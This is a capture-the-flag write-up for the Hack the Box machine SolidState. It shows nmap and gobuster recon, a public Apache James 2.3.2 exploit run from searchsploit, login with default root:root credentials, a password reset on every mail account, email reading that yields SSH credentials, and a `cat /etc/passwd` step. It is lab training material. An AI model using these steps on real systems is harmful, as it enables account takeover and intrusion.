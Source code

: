 # Hack the Box - SolidState

```CSS
Machine IP: 10.10.10.51 - Linux
Difficulty: Medium
Category: OSCP Preparation
Vulnerabilities:
  - 
```

# Reconnaissance
  - Scan for open TCP ports on target machine.
  - Perform service and version detection of open ports.

## Port Scan
```CSS
▶ nmap -Pn -sS -O -p- 10.10.10.51 -T4 --min-rate 1000 -oN ports.nmap

Nmap scan report for 10.10.10.51
Host is up (0.18s latency).
Not shown: 65529 closed tcp ports (reset)
PORT     STATE SERVICE
22/tcp   open  ssh
25/tcp   open  smtp
80/tcp   open  http
110/tcp  open  pop3
119/tcp  open  nntp
4555/tcp open  rsip
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.93%E=4%D=5/7%OT=22%CT=1%CU=37112%PV=Y%DS=2%DC=I%G=Y%TM=6457A8C8
OS:%P=x86_64-pc-linux-gnu)SEQ(SP=106%GCD=1%ISR=109%TI=Z%CI=I%II=I%TS=8)OPS(
OS:O1=M53CST11NW7%O2=M53CST11NW7%O3=M53CNNT11NW7%O4=M53CST11NW7%O5=M53CST11
OS:NW7%O6=M53CST11)WIN(W1=7120%W2=7120%W3=7120%W4=7120%W5=7120%W6=7120)ECN(
OS:R=Y%DF=Y%T=40%W=7210%O=M53CNNSNW7%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=AS
OS:%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(R=
OS:Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=
OS:R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N%T
OS:=40%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%CD=
OS:S)

Network Distance: 2 hops

OS detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 81.67 seconds
```

## Service and Version Detection
```CSS
▶ nmap -sC -sV -p 22,25,80,110,119,4555 10.10.10.51 -oN services.nmap

Nmap scan report for 10.10.10.51
Host is up (0.23s latency).

PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.4p1 Debian 10+deb9u1 (protocol 2.0)
| ssh-hostkey: 
|   2048 770084f578b9c7d354cf712e0d526d8b (RSA)
|   256 78b83af660190691f553921d3f48ed53 (ECDSA)
|_  256 e445e9ed074d7369435a12709dc4af76 (ED25519)
25/tcp   open  smtp    JAMES smtpd 2.3.2
|_smtp-commands: solidstate Hello nmap.scanme.org (10.10.14.24 [10.10.14.24])
80/tcp   open  http    Apache httpd 2.4.25 ((Debian))
|_http-server-header: Apache/2.4.25 (Debian)
|_http-title: Home - Solid State Security
110/tcp  open  pop3    JAMES pop3d 2.3.2
119/tcp  open  nntp    JAMES nntpd (posting ok)
4555/tcp open  rsip?
| fingerprint-strings: 
|   GenericLines: 
|     JAMES Remote Administration Tool 2.3.2
|     Please enter your login and password
|     Login id:
|     Password:
|     Login failed for 
|_    Login id:
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port4555-TCP:V=7.93%I=7%D=5/7%Time=6457C059%P=x86_64-pc-linux-gnu%r(Gen
SF:ericLines,7C,"JAMES\x20Remote\x20Administration\x20Tool\x202\.3\.2\nPle
SF:ase\x20enter\x20your\x20login\x20and\x20password\nLogin\x20id:\nPasswor
SF:d:\nLogin\x20failed\x20for\x20\nLogin\x20id:\n");
Service Info: Host: solidstate; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 270.27 seconds
```

![image](https://user-images.githubusercontent.com/83878909/236687327-996643f3-8f36-450d-8d69-aefc5ca035ff.png)

---

# Enumeration
## Port 22 - SSH
  - The OpenSSH version that is running is not associated with any critical vulnerabilities, so it’s unlikely to gain initial access through this port, unless some valid credentials are found.

---

## Port 25 - SMTP
  - Service and Version: `James smtpd 2.3.2`
```CSS
▶ searchsploit james 2.3.2
```
![image](https://user-images.githubusercontent.com/83878909/236688076-9a3abaef-62ed-443e-96ad-1e902cd6a14b.png)

---

## Port 80 - HTTP
![image](https://user-images.githubusercontent.com/83878909/236688134-0d9eac62-a0d4-4172-b2e6-cade79213572.png)

### Content Discovery
  - Brute-force directories.
```CSS
▶ gobuster dir --url http://10.10.10.51 --wordlist /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-small.txt --threads 25
```
![image](https://user-images.githubusercontent.com/83878909/236745375-9142a91b-f442-4716-a2d2-a6a2db5766df.png)

---

# Exploit

## Initial Foothold
  - Apache James Server 2.3.2 - Remote Command Execution using default credentials.
  - Execute the exploit.
  - Connect to the target using netcat.
  - Login using the credentials: `root:root`.

### Download Exploit
```CSS
▶ searchsploit -m linux/remote/35513.py
```

### Run Exploit
```CSS
▶ python2 35513.py 10.10.10.51
```
![image](https://user-images.githubusercontent.com/83878909/236746610-285d13e2-4f47-4622-a773-d2e1a743ac2f.png)

### Connect to Target
```CSS
▶ nc 10.10.10.51 4555
```
![image](https://user-images.githubusercontent.com/83878909/236746370-6adb3b95-83e9-4ab4-b182-1f9eae2bd06f.png)

  - List all mail accounts using the command `listusers`.
![image](https://user-images.githubusercontent.com/83878909/236747526-8b0e75ab-02b4-4a01-9f49-e2ab4130bebd.png)

  - Change the password of the `mailadmin` user account using the command `setpassword`.
![image](https://user-images.githubusercontent.com/83878909/236747790-6eae3333-52cf-44a6-afa3-237bab43889f.png)

### Access User E-mail Account
  - Use `telnet` to access the email account of user `mailadmin`.
```
▶ telnet 10.10.10.51 110
```
![image](https://user-images.githubusercontent.com/83878909/236748853-bb598a85-1114-41b9-b645-14389fc798d8.png)
  - No email were found.

### Inspect All User E-mail Accounts
  - Change the password of all user e-mail accounts.
  - Access all email accounts using telnet.
  - Check for interesting information by inspecting emails in all accounts.

#### Change Passwords
![image](https://user-images.githubusercontent.com/83878909/236750391-5ebf01b4-0eb4-4bbe-b757-cb9875eb12d4.png)

#### Check E-mails
```
RETR 1
```
  - User `john`.
![image](https://user-images.githubusercontent.com/83878909/236751189-78724c43-ea2d-4d66-bcb7-f46062a502e3.png)

  - User `mindy`.
```
RETR 2
```
![image](https://user-images.githubusercontent.com/83878909/236751675-ca0a8ff0-2899-4649-8d68-855893b0fbf5.png)
  - SSH Credentials: `mindy:P@55W0rd1!2@`

### SSH
```CSS
▶ ssh mindy@10.10.10.51
```
![image](https://user-images.githubusercontent.com/83878909/236756135-c2652272-d7e1-4eed-b8f3-3e40b2d98b21.png)
![image](https://user-images.githubusercontent.com/83878909/236762145-7aa8329a-e138-4463-84cf-1711df9524ab.png)

---

# Privilege Escalation
### Restricted Bash Shell
```CSS
mindy@solidstate:~$ cat /etc/passwd
```
![image](https://user-images.githubusercontent.com/83878909/236760143-8d145c84-ff6d-4423-a934-ea6297aefc00.png)
